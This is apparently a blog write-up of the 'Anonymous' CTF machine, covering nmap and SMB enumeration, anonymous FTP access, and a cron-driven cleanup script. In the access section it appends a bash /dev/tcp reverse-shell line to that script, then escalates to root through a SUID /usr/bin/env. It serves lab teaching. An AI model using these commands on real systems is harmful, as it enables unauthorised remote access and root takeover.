

# Introduction

Anonymous is a beginner CTF privesc challenge. You need to find 2 flags to complete the hack. This machine teaches us to gain access using cron jobs and privilege escalation using SUID binary.


# Enumeration

>Enumeration is defined as the process of extracting user names, machine names, network resources, shares, and services from a system. ... The gathered information is used to identify the vulnerabilities or weak points in system security and tries to exploit the System gaining phase.

Let's start the enumeration process. Heuristic tinkering/passive scanning shows that there was no webserver running but FTP and SSH is running.


## Nmap

>Nmap is a free and open-source network scanner created by Gordon Lyon. Nmap is used to discover hosts and services on a computer network by sending packets and analyzing the responses. Nmap provides a number of features for probing computer networks, including host discovery and service and operating system detection.

```bash
nmap -p- -A -T4 10.10.3.190 -oN nmap/full
```
Aggressive Nmap scan shows us the ports `21,22,139,445` are open.


The __FTP__, __SMB__ and __SSH__ ports are open. let's try enumerating the SMB shares first.


## SMB

let's check the shares available.


Looks like `pics` share is available, with the comment `My SMB Share Directory for Pics`.

__Pics__? maybe something hidden inside using steganography?. 


We can see 2 image files `corgo2.jpg` and `puppos.jpeg`. let's download it to our machine.


I tried `binwalk` on both files, turned out only `puppos.jpeg` file had something embedded inside. a TIFF file


let's try to extract the embedded contents.


The `C` file is the one embedded inside `puppos.jpeg`. I checked the file for some information but I got nothing in the end. 


It was a rabbit hole.


Let's move on to FTP and check if we get something interesting.


## FTP

Let's check for anonymous login via FTP.


It worked. let's check the contents.


there are 3 interesting files `clean.sh`, `removed_files.log` and `to_do.txt`.

let's download the files to our kali machine.


```bash:title=clean.sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi

```
<br/>

```:title=removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```


<br/>

```:title=to_do.txt
I really need to disable the anonymous login...it's really not safe

```

Indeed it is. Too late bruh! I already got the file 😆.


Looks like the `clean.sh` file is running somewhere in the machine repeatedly that is generating that log file and it seems like we have write permission in FTP. What if we inject our code in the `clean.sh` file and get a reverse shell?


---

# Gaining Access: Reverse Shell


First, we will mount the FTP as a file share and edit files using `curlFTPfs`.


add `bash -i >& /dev/tcp/<ip>/<port> 0>&1` in `clean.sh` file.


```bash:title=clean.sh {2}
#!/bin/bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi

```

>Replace the &#x3C;ip&#x3E; and &#x3C;port&#x3E; with your ip and port number.

now let's open a Netcat listener using `nc -lvnp <port>`. wait for the `clean.sh` to run so that we can get a reverse shell.


And we got it.


The file `user.txt` contains the user flag.


---

# Privilege Escalation

`sudo -l` asked for a password. Since we don't know the password we can skip it.

This time I used [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script to enumerate the Linux machine.


When checking for SUID binaries. we can see `/usr/bin/env` has setuid bit set with **root** privileges. This means we can get a root shell by using `env` command.




Let's head to [gtfobins](https://gtfobins.github.io/gtfobins/env/) for the escalation command.


lets try executing `/usr/bin/env /bin/sh -p`


And we got a **root** shell.

With the root shell, we can read the contents of the root directory *(Actually we can read anything)* which contains the root flag.


---

# Summary

- Nmap scan shows SSH, FTP and SMB ports are open
- pics share was available in SMB which contains 2 image files.
- The image files are nothing but the rabbit holes.
- FTP had 3 files clean.sh, removed_files.log and to_do.txt
- We identified that clean.sh was running somewhere, it may be using cron jobs.
- To gain access, we first mount the FTP as a filesystem and injected reverse shell command.
- With Netcat listener listening on the local kali machine, we got a reverse shell.
- The user.txt contained a user flag.
- For privilege escalation, the host machine is enumerated using linpeas script.
- It showed the /usr/bin/env was set with setuid as root.
- Using the command from gtfobins, we use env command to escalate root privilege.
- The root flag was found in /root directory.

---


# Before you leave

If you have any constructive criticism or any questions, please drop an email at [hello@dvlper.in](mailto:hello@dvlper.in) or ping me in [instagram](https://instagram.com/dvlp.er). I'll be happy to hear your feedback.

Follow me on  [ Github](https://github.com/devwaseem), [Twitter](https://twitter.com/iamwaseem99), [Instagram](https://www.instagram.com/dvlp.er/), [Facebook](https://www.facebook.com/dvlprwaseem), [LinkedIn](https://www.linkedin.com/in/devwaseem/).


